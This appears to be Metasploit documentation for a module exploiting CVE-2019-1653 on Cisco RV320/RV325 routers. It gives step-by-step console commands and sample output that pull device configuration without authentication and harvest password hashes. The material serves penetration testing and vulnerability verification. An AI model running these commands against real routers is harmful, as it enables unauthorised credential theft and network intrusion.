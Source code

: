 ## Vulnerable Application

[CVE-2019-1653](https://nvd.nist.gov/vuln/detail/CVE-2019-1653) (aka Cisco Bugtracker ID [CSCvg85922](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info)) is an unauthenticated disclosure of device configuration information for the Cisco RV320/RV325 small business router.  The vulnerability was responsibly disclosed by [RedTeam Pentesting GmbH](https://seclists.org/fulldisclosure/2019/Jan/52).

An exposed remote administration interface (on :443) would allow an attacker to retrieve password hashes and other sensitive device configuration information.  On version `1.4.2.15`, the vulnerabilty is exploitable via the WAN interface on port 8007 (by default) or 443 (if remote administration is enabled), in addition to port 443 on the LAN side.  On version `1.4.2.17`, only LAN port 443 is accessible by default, but user configuration can open port 443 for remote management on the WAN side, making the device vulnerable externally.

More context is available from [Rapid7's blog post](https://blog.rapid7.com/2019/01/29/cisco-r-rv320-rv325-router-unauthenticated-configuration-export-vulnerability-cve-2019-1653-what-you-need-to-know/).


## Verification Steps

 1. Start `msfconsole`
 2. `use auxiliary/gather/cisco_rv320_config`
 3. `set RHOSTS 192.168.1.1` (default LAN IP) or to the WAN interface
 4. `run`
 6. Review the downloaded configuration file cited in the output.  For example:
>```
>[+] Stored configuration (128658 bytes) to /home/administrator/.msf4/loot/20190206213439_default_172.16.0.34_cisco.rv.config_791561.txt
>```
 5. If the database is connected, review the `hosts`, `creds`, and `loot` commands

## Options

*SSL*: Should be set to 'true' for port 443 and set to 'false' for port 80 or port 8007.

*TARGETURI*: Should point to the `/cgi-bin/config.exp` endpoint and likely should never be changed.

## Scenarios

#### Against firmware version 1.4.2.15, which on the LAN side, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco_rv320_config
msf5 auxiliary(gather/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.15, on the WAN side, port 8007:

```
msf5 >
msf5 > use auxiliary/gather/cisco_rv320_config
msf5 auxiliary(gather/cisco_rv320_config) > set RHOSTS 172.16.0.34
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco_rv320_config) > set RPORT 8007
RPORT => 8007
msf5 auxiliary(gather/cisco_rv320_config) > set SSL false
SSL => false
msf5 auxiliary(gather/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.17, which on the LAN side, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco_rv320_config
msf5 auxiliary(gather/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against newer firmware (>= 1.4.2.19):

```
msf5 >
msf5 > use auxiliary/gather/cisco_rv320_config
msf5 auxiliary(gather/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco_rv320_config) > run

[-] Auxiliary aborted due to failure: not-vulnerable: Response suggests device is patched
[*] Auxiliary module execution completed
```

#### If module succeeds, check the database:

```
msf5 auxiliary(gather/cisco_rv320_config) > hosts

Hosts
=====

address      mac                name          os_name  os_flavor  os_sp  purpose  info  comments
-------      ---                ----          -------  ---------  -----  -------  ----  --------
172.16.0.34  70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
192.168.1.1  70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
```

```
msf5 auxiliary(gather/cisco_rv320_config) > creds
Credentials
===========

host         origin       service          public  private                            realm  private_type
----         ------       -------          ------  -------                            -----  ------------
172.16.0.34  192.168.1.1  8007/tcp (http)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
192.168.1.1  192.168.1.1  443/tcp (https)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
```

```
msf5 auxiliary(gather/cisco_rv320_config) > loot

Loot
====

host         service  type             name  content     info  path
----         -------  ----             ----  -------     ----  ----
172.16.0.34           cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206213439_default_172.16.0.34_cisco.rv.config_791561.txt
192.168.1.1           cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206211312_default_192.168.1.1_cisco.rv.config_412095.txt
```
